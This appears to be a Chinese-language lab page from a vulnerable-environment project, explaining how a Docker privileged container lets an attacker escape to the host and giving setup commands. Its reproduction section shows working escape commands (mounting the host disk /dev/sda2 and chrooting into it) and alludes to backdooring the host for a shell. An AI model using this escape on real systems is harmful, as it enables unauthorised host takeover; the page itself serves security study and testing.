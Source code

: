 # 特权容器导致容器逃逸

## 场景介绍

最初，容器特权模式的出现是为了帮助开发者实现Docker-in-Docker特性[1]。然而，在特权模式下运行不完全受控容器将给宿主机带来极大安全威胁。

官方文档[2]对特权模式的描述如下：

> 当操作者执行`docker run --privileged`时，Docker将允许容器访问宿主机上的所有设备，同时修改AppArmor或SELinux的配置，使容器拥有与那些直接运行在宿主机上的进程几乎相同的访问权限。

## 环境搭建

基础环境（Docker+K8s）准备（如果已经有任意版本的Docker+K8s环境则可跳过）：

```bash
./metarget gadget install docker --version 18.03.1
./metarget gadget install k8s --version 1.16.5 --domestic
```

漏洞环境准备：

```bash
./metarget cnv install privileged-container
```

执行完成后，K8s集群内`metarget`命令空间下将会创建一个名为`privileged-container`的包含特权容器的pod。

注：此场景较为简单，也可以直接使用Docker手动搭建，这里不再赘述。

## 漏洞复现

特权模式下容器能够看到宿主机硬盘设备，可以通过挂载宿主机硬盘的方式实现文件系统层面逃逸。

示例如下（硬盘路径需要根据实际环境确定，这里为`/dev/sda2`）：

```
➜  metarget git:(master) kubectl exec -it -n metarget privileged-container /bin/bash
root@privileged-container:/# fdisk -l | grep /dev/sda2
/dev/sda2   4096 167770111 167766016  80G Linux filesystem
root@privileged-container:/# mount /dev/sda2 /host
root@privileged-container:/# chroot /host
# cat /etc/hostname
metarget-test
```

后续可以通过各种类似于Linux写文件后门的技术获得宿主机上的shell，这里不再赘述。

## 参考文献

1. https://www.docker.com/blog/docker-can-now-run-within-docker/
2. https://docs.docker.com/engine/reference/run/#runtime-privilege-and-linux-capabilities


